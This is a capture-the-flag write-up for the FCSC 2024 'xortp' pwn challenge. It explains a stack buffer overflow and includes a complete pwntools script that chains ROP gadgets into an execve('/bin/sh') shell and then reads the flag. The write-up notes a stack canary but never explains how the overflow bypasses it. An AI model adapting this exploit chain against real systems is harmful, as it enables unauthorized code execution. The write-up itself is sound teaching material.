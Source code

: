 ```yaml
---
title: "FCSC 2024 - Challenge Xortp"
date: 2024-04-28
tags: ["Pwn"]
categories: ["Pwn"]
ctfs: ["fcsc"]
---
```

# Writeup: xortp

## Challenge Overview

This challenge involves exploiting a buffer overflow vulnerability in the "xortp" binary to gain a shell and read the flag. The exploit leverages Return-Oriented Programming (ROP) to bypass modern security protections.

## Binary Analysis

The binary has the following protections:
- Architecture: amd64-64-little
- RELRO: Partial RELRO
- Stack: Canary found
- NX: NX enabled (No execution on stack)
- PIE: No PIE (fixed base address at 0x400000)
- Not stripped

The key vulnerability appears to be a buffer overflow that allows overwriting the return address despite stack canaries being enabled.

## Vulnerability and Exploitation

The vulnerability is a classic buffer overflow where we can overwrite the return address. Since NX is enabled, we cannot directly execute shellcode on the stack. Instead, we use ROP to chain together existing code fragments (gadgets) to execute a system call.

### Exploitation Strategy

1. Overflow the buffer to control the instruction pointer  
2. Build a ROP chain to execute `execve("/bin/sh", 0, 0)` syscall  
3. Get a shell and read the flag  

---

### 🔧 Syscall Calling Convention Reference

| Architecture      | Syscall Number Reg | Argument 1 | Argument 2 | Argument 3 | Argument 4 | Argument 5 | Argument 6 | Return Value | Instruction |
|------------------|--------------------|------------|------------|------------|------------|------------|------------|---------------|-------------|
| **x86 (32-bit)** | `eax`              | `ebx`      | `ecx`      | `edx`      | `esi`      | `edi`      | `ebp`      | `eax`         | `int 0x80`  |
| **x86_64**       | `rax`              | `rdi`      | `rsi`      | `rdx`      | `r10`      | `r8`       | `r9`       | `rax`         | `syscall`   |
| **ARM (32-bit)** | `r7`               | `r0`       | `r1`       | `r2`       | `r3`       | `r4`       | `r5`       | `r0`          | `svc 0`     |
| **ARM64**        | `x8`               | `x0`       | `x1`       | `x2`       | `x3`       | `x4`       | `x5`       | `x0`          | `svc 0`     |

This table is especially useful in ROP-based attacks where we construct a syscall manually by populating the appropriate registers using gadgets.

---

### ROP Chain Details

Our goal is to execute the `execve` syscall (syscall number 59) with the following arguments:
- `rdi` = pointer to "/bin/sh" string (first argument)
- `rsi` = 0 (second argument - argv, set to NULL)
- `rdx` = 0 (third argument - envp, set to NULL)
- `rax` = 59 (syscall number for execve)

We use the following ROP gadgets:
```
pop_rdi = 0x0000000000401f60       # Control first argument
pop_rsi = 0x000000000040f972       # Control second argument
pop_rax_rdx_rbx = 0x00000000004867a6  # Control syscall number and third argument
syscall_gadget = 0x00000000004011a2  # Execute the syscall
```

The string "/bin/sh" was found at address 0x00498213 in the binary.

### Buffer Size

The required padding before reaching the return address is 152 bytes.

## Exploit Implementation

The exploit script uses pwntools to construct and send the payload:

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('xortp')

# ROP gadgets
pop_rax = 0x00000000004424f7   
pop_rsi = 0x000000000040f972   
pop_rdi = 0x0000000000401f60   
pop_rax_rdx_rbx = 0x00000000004867a6  
syscall_gadget = 0x00000000004011a2  

addr_bin_sh = 0x00498213          

# Connect to the process
io = process('./xortp')  # or remote("host", port)

# Syscall parameters for execve("/bin/sh", 0, 0)
path = addr_bin_sh    # First argument: path to binary
argv = 0              # Second argument: argument array (NULL)
envp = 0              # Third argument: environment variables (NULL)
syscall_num = 59      # Syscall number for execve

BUFFER = 152  # Size of buffer before return address

# Construct the payload
payload = flat(
    b'A'*BUFFER,      # Padding to reach return address
    p64(pop_rdi),     # Pop path into RDI (first argument)
    p64(path),        # Address of "/bin/sh" string
    p64(pop_rsi),     # Pop 0 into RSI (second argument)
    p64(argv),        # NULL for argv
    p64(pop_rax_rdx_rbx),  # Pop syscall number into RAX and third argument into RDX
    p64(syscall_num), # Syscall number for execve (59)
    p64(envp),        # NULL for envp (third argument)
    p64(0),           # Dummy value for RBX
    p64(syscall_gadget)  # Execute the syscall
)

# Send the payload
io.sendline(payload)
io.sendline("id && cat flag.txt")  # Run commands in the obtained shell
io.interactive()
```

## Execution Flow

1. We send a payload that fills the buffer with 152 'A's to reach the return address  
2. The ROP chain is executed:  
   - `pop_rdi` gadget pops the address of "/bin/sh" into RDI  
   - `pop_rsi` gadget pops 0 into RSI  
   - `pop_rax_rdx_rbx` gadget pops 59 into RAX (syscall number), 0 into RDX, and a dummy value into RBX  
   - `syscall_gadget` executes the syscall, which runs execve("/bin/sh", 0, 0)  
3. We now have a shell and can read the flag with `cat flag.txt`  

## Flag

After gaining the shell, we can read the flag with `cat flag.txt` command.

## Conclusion

This challenge demonstrates a classic ROP-based exploitation technique to bypass NX protection. By chaining together existing code gadgets, we can execute arbitrary system calls without injecting executable code onto the stack.